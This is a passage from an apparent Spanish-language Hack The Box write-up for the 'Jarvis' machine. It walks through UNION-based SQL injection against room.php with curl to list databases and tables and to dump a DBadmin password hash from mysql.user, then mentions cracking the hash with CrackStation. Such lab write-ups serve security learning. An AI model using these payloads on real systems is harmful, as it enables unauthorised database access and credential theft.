 Lo primero a enumerar es el nombre de las base de datos y cuantas existen:

`http://10.10.10.143/room.php?cod=7 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c)e,4,5,6,7+fRoM+information_schema.schemata--+`

![Untitled](/assets/images/Jarvis/Untitled%205.png)

Hay 4 base de datos, vamos a enumerar hotel y mysql:

```bash
❯ curl -s -X GET "http://10.10.10.143/room.php?cod=7%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,table_name,0x7c)e,4,5,6,7+fRoM+information_schema.tables++wHeRe+table_schema=%22hotel%22--+" | grep "price-room" | html2text
|room|
```

Solo tiene la tabla room, no me interesa, asi que paso a la base de datos de mysql:

```bash
❯ curl -s -X GET "http://10.10.10.143/room.php?cod=7%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,table_name,0x7c)e,4,5,6,7+fRoM+information_schema.tables++wHeRe+table_schema=%22mysql%22--+" | grep "price-room" | html2text
|column_stats|,|columns_priv|,|db|,|event|,|func|,|general_log|,|gtid_slave_pos|,|help_category|,|help_keyword|,|help_relation|,|help_topic|,|host|,|index_stats|,|innodb_index_stats|,|innodb_table_stats|,|plugin|,|proc|,|procs_priv|,|proxies_priv|,|roles_mapping|,|servers|,|slow_log|,|table_stats|,|tables_priv|,|time_zone|,|time_zone_leap_second|,|time_zone_name|,|time_zone_transition|,|time_zone_transition_type|,|user|
```

Vemos que tiene una tabla llamada user, normalmente mysql tiene dentro de la tabla user las columnas user y password, vamos a intentar sacar la informacion:

```bash
❯ curl -s -X GET "http://10.10.10.143/room.php?cod=7%20UNION%20SELECT%201,2,gRoUp_cOncaT(user,0x7c,password)e,4,5,6,7+fRoM+mysql.user--+" | grep "price-room" | html2text
DBadmin|*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

Tiramos de CrackStation para ir mas rapido a la hora de crackear contraseñas:

![Untitled](/assets/images/Jarvis/Untitled%206.png)
